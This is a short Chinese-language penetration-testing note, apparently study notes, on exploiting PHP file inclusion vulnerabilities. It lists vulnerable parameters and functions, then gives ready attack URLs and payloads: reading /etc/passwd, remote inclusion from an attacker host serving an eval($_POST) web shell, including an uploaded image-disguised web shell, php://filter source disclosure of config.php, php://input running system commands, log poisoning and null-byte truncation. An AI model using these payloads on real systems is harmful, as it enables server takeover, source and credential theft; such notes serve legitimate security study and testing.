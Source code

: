 ```yaml
---
# 这是页面的图标
icon: file
# 这是文章的标题
title: 文件包含
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-20
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 文件包含
comment: false
---
```


## 典型特征
```URL
?page=a.php
?home=b.html
?file=content
?name=a.php
```
## php常见导致文件包含的函数：
```php
include()
include_once()
require()
require_once()
fopen()
readfile()
```
## 利用
1. 读取文件
```url
http://www.xxser.com/index.php?page=/etc/passwd
```
2. 远程包含shell  
allow_url_fopen=on 情况下
```url
http://www.example.com/index.php?page=http://www.attacker.com/echo.txt
其中echo.txt内容为:<?php eval($_POST[xxser]);?>
```
3. 本地包含配合文件上传漏洞包含shell
```url
上传一句话木马文件后，通过文件包含利用，非php扩展文件被包含后也会被当作php解析
http://www.example.com/index.php?page=./uploadfile/xxx.jpg
```
4. PHP协议
  - php://filter  
  一种元封装器，用于数据流打开时的筛选过滤应用
  ```url
  http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
  ```
  - php://input  
  php://input是个可以访问请求的原始数据的只读流,可以接收post请求，将请求作为PHP代码的输入传递给目标变量
  ```url
  http://www.example.com/index.php?page=php://input
  实例：
  POST /?file=php://input
  <?php system("cat /flag");?>
  ```
5. 包含日志文件
```url
先访问：http://www.example.com/<?php phpinfo();?>生成日志
再访问：http://www.xxser.com/index.php?page=./../Apache-20/logs/access.log
关键在于确定apache路径
```
6. 截断包含  
magic_quotes_gpc=off 情况下
```url
http://www.example.com/index.php?page=1.jpg%00
```
